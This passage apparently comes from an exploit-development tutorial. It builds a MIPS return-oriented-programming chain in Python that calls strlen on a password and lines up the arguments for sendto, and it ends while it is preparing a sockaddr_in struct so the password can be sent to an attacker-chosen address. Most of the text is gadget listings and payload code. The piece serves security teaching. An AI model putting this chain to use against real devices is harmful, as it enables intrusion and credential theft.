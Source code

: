 Then we load the address of *strlen* into *v0*, and call the function using the ugly **jalr** gadget as we care about the return value - you should remember this from earlier:

```
-python
# Load address of strlen into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(strlen_addr) # v0 - strlen address
chain += b'b' * 8
chain += p32(0x133d58 + base_address) # ra

# Call strlen and regain control
# 0x00133d58: jalr $v0; nop; move $s0, $v0; lw $ra, 0x24($sp); move $v0, $s0; lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x28; 
chain += b'b' * 0x18
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x166168 + base_address) # ra
```

So at this point, we have the length of the password in *$v0*. I hate to spoil the next function call we are going to make, but its *sendto*, which takes the number of bytes to send as its 3rd argument. Therefore, we need to move the contents of *$v0* into *$a2*:

```
-python
# 0x00166168: move $v1, $v0; lw $ra, 4($sp); move $v0, $v1; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0x18f044 + base_address)

# 0x0018f044: move $a2, $v1; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += b'b' * 0xc
chain += p32(0x1a9f9c + base_address)
```

As you can see, I needed to use *$v1* as a middle man as there were no useful gadgets that moved *$v0* into *$a2*. However, we now have one of our *sendto* arguments in the right place.

### sockaddr_in

```
-c
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
```

We need to create a *sockaddr_in* struct containing the port and IP address we would like to send the message to. As we cannot send null bytes, we will need to find some memory that we can copy containing the bytes we need. 
